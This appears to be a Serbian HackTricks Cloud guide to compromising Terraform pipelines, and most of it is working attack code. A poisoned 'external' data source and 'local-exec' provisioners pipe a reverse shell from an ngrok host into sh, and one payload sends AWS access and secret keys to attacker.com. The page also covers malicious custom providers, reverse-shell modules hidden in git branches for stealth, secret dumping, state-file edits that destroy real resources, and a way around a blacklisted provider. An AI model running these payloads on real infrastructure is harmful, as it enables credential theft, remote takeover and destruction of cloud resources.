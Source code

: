 # Bezbednost Terraforma

<details>

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Osnovne informacije

[Od dokumenata:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform je alat za **infrastrukturu kao kod** koji vam omogućava da definišete kako **oblak tako i resurse na lokaciji** u čitljivim konfiguracionim fajlovima koje možete verzionisati, ponovo koristiti i deliti. Zatim možete koristiti dosledan radni tok za obezbeđivanje i upravljanje celokupnom infrastrukturom tokom njenog životnog ciklusa. Terraform može upravljati komponentama niskog nivoa poput računanja, skladištenja i mrežnih resursa, kao i komponentama visokog nivoa poput DNS unosa i SaaS funkcija.

### Kako radi Terraform?

Terraform kreira i upravlja resursima na cloud platformama i drugim uslugama putem njihovih programskih interfejsa (API-ja). Provajderi omogućavaju Terraformu da radi sa gotovo bilo kojom platformom ili uslugom sa pristupačnim API-jem.

![](<../.gitbook/assets/image (177).png>)

HashiCorp i Terraform zajednica već su napisali **više od 1700 provajdera** za upravljanje hiljadama različitih tipova resursa i usluga, a ovaj broj nastavlja da raste. Sve javno dostupne provajdere možete pronaći na [Terraform Registru](https://registry.terraform.io/), uključujući Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog i mnoge druge.

Osnovni radni tok Terraforma sastoji se od tri faze:

* **Pisanje:** Definišete resurse koji mogu biti na više cloud provajdera i usluga. Na primer, možete kreirati konfiguraciju za implementaciju aplikacije na virtuelnim mašinama u Virtualnoj privatnoj mreži (VPC) sa sigurnosnim grupama i balanserom opterećenja.
* **Planiranje:** Terraform kreira izvršni plan koji opisuje infrastrukturu koju će kreirati, ažurirati ili uništiti na osnovu postojeće infrastrukture i vaše konfiguracije.
* **Primenjivanje:** Po odobrenju, Terraform vrši predložene operacije u ispravnom redosledu, poštujući sve zavisnosti resursa. Na primer, ako ažurirate osobine VPC-a i promenite broj virtuelnih mašina u tom VPC-u, Terraform će ponovo kreirati VPC pre skaliranja virtuelnih mašina.

![](<../.gitbook/assets/image (215).png>)

## Terraform Laboratorija

Jednostavno instalirajte Terraform na svom računaru.

Evo [vodiča](https://learn.hashicorp.com/tutorials/terraform/install-cli) i ovde imate [najbolji način za preuzimanje Terraforma](https://www.terraform.io/downloads).

## RCE u Terraformu

Terraform **nema platformu koja izlaže veb stranicu ili mrežnu uslugu** koju možemo enumerisati, stoga je jedini način da kompromitujemo Terraform da **budemo u mogućnosti da dodamo/izmenimo konfiguracione fajlove Terraforma**.

Međutim, Terraform je **vrlo osetljiva komponenta** za kompromitovanje jer će imati **privilegovani pristup** različitim lokacijama kako bi mogla pravilno da funkcioniše.

Glavni način za napadača da bude u mogućnosti da kompromituje sistem na kojem se izvršava Terraform je da **kompromituje repozitorijum koji čuva konfiguracije Terraforma**, jer će u nekom trenutku biti **interpretirane**.

Zapravo, postoje rešenja koja **automatski izvršavaju terraform plan/apply nakon što je napravljen PR**, kao što je **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Ako ste u mogućnosti da kompromitujete Terraform fajl, postoje različiti načini na koje možete izvršiti RCE kada neko izvrši `terraform plan` ili `terraform apply`.

### Terraform plan

Terraform plan je **najčešće korišćena komanda** u Terraformu i developeri/rešenja koja koriste Terraform je stalno pozivaju, stoga je **najlakši način za dobijanje RCE** da se pobrinite da otrovate Terraform konfiguracioni fajl koji će izvršiti proizvoljne komande u `terraform plan`.

#### Korišćenje spoljnog provajdera

Terraform nudi [`external` provajder](https://registry.terraform.io/providers/hashicorp/external/latest/docs) koji pruža način za interfejs između Terraforma i spoljnih programa. Možete koristiti `external` izvor podataka da pokrenete proizvoljni kod tokom `plan`-a.

Ubacivanje nečega poput sledećeg u Terraform konfiguracioni fajl će izvršiti reverznu ljusku prilikom izvršavanja `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Korišćenje prilagođenog provajdera

Napadač bi mogao poslati [prilagođeni provajder](https://learn.hashicorp.com/tutorials/terraform/provider-setup) na [Terraform Registry](https://registry.terraform.io/) i zatim ga dodati u Terraform kod u grani funkcije ([primer odavde](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Provajder se preuzima u `init` i pokrenuće zlonamerni kod kada se izvrši `plan`

Primer možete pronaći na [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Korišćenje spoljnog referentnog

Obe pomenute opcije su korisne ali nisu vrlo prikrivene (druga je prikrivenija ali složenija od prve). Možete izvesti ovaj napad čak na **prikriveniji način**, prateći ove sugestije:

* Umesto dodavanja reverznog šela direktno u terraform fajl, možete **učitati spoljni resurs** koji sadrži reverzni šel:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Možete pronaći rev shell kod na [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* U spoljnom resursu, koristite **ref** funkciju da sakrijete **terraform rev shell kod u grani** unutar repozitorijuma, nešto poput: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Primena

Terraform primena će biti izvršena kako bi primenila sve promene, takođe je možete zloupotrebiti da biste dobili RCE ubacivanjem **zlonamernog Terraform fajla sa** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Samo se pobrinite da se neki payload poput sledećih završava u fajlu `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Pratite **predloge iz prethodne tehnike** da biste izvršili ovaj napad na **diskretniji način korišćenjem spoljnih referenci**.

## Dumpovanje Tajni

Možete imati **vrednosti tajni korišćene od strane terraforma dumpovane** pokretanjem `terraform apply` dodavanjem nečega poput sledećeg u terraform fajl:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Zloupotreba Terraform stanja datoteka

U slučaju da imate pristup pisanju nad terraform stanja datotekama, ali ne možete promeniti terraform kod, [**ova istraživanja**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) pružaju neke zanimljive opcije za iskorišćavanje datoteke:

### Brisanje resursa <a href="#deleting-resources" id="deleting-resources"></a>

Postoje 2 načina za uništavanje resursa:

1. **Umetnite resurs sa nasumičnim imenom u stanje datoteke koje pokazuje na pravi resurs za uništavanje**

Pošto će terraform videti da resurs ne bi trebao postojati, uništiće ga (prateći stvarni ID resursa koji je naznačen). Primer sa prethodne stranice:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Modifikujte resurs za brisanje na način da nije moguće ažurirati (tako da će biti obrisan i ponovo kreiran)**

Za EC2 instancu, modifikacija tipa instance je dovoljna da terraform obriše i ponovo kreira.

### RCE

Takođe je moguće [kreirati prilagođenog provajdera](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) i jednostavno zameniti jednog od provajdera u datoteci stanja terraforma zlonamernim ili dodati prazan resurs sa zlonamernim provajderom. Primer iz originalnog istraživanja:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## Zamena zabranjenog provajdera

U slučaju da naiđete na situaciju gde je `hashicorp/external` stavljena na crnu listu, možete ponovo implementirati `external` provajdera sledeći ove korake. Napomena: Koristimo fork provajdera `external` objavljen od strane https://registry.terraform.io/providers/nazarewk/external/latest. Takođe možete objaviti svoj sopstveni fork ili ponovnu implementaciju.
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
Zatim možete koristiti `external` kao i obično.
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## Alatke za reviziju

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec koristi statičku analizu vašeg terraform koda kako bi otkrio potencijalne loše konfiguracije.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan je statički analizator koda za infrastrukturu kao kod.

## Reference

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
